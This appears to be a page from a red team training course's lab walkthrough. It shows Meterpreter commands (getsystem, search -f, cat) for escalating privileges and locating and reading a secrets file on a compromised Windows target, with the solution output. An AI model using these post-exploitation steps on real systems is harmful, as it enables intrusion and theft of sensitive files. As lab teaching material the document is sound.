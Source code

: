# **Challenge 8: Finding Sensitive Files**
!!! note ""
## **Procedure:**

With access gained on the final target server, the last step is to grab the flag and claim victory. 

- Using your Meterpreter shell, search the target server for a file named secrets.txt .
- Read the contents of the file, and include them in your report.

    **Note**: If you have found the filepath but get errors trying to open the file, it is likely a syntax issue. Using Windows-style filepaths in a Linux command line can be difficult, since Windows uses backslashes instead of forward slashes in paths, which your command line will interpret as an escape sequence instead of a literal backslash.  There are two good workarounds for this:

    - Put quotes around the filepath in your command, like "C:\Windows\system32\file.txt"
    - Alternatively, you can use double slashes in place of the forward slashes: C:\\Windows\\system32\\file.txt

## **Solution:**

### Finding the file secrets.txt.

```bash linenums="1" hl_lines="1 2"
meterpreter > getsystem
[-] Already running as SYSTEM
meterpreter > search -f secrets.txt
Found 1 result...
=================

Path                          Size (bytes)  Modified (UTC)
----                          ------------  --------------
c:\Windows\debug\secrets.txt  55            2022-11-05 22:01:13 +0000

```
### Reading the file secrets.txt.

```bash linenums="1" hl_lines="1 3 9"
meterpreter > cat c:\\Windows\\debug\\secrets.txt
Congratulations! You have finished the red team course!meterpreter > 
```

![alt text](images/Pasted%20image%2020240508010646.png)

## Congratulations! You have finished the red team course!

!!! note ""

<div class="button-container" markdown="1">
<a href="/Career-Simulation-3/challenge_6/" class="md-button md-button--primary">Previous: Challenge 6</a>
<a href="/Career-Simulation-3/" class="md-button md-button--secondary">Home 🏠</a>
<a href="/Career-Simulation-3/report/" class="md-button md-button--primary">Next: Report</a>
</div>



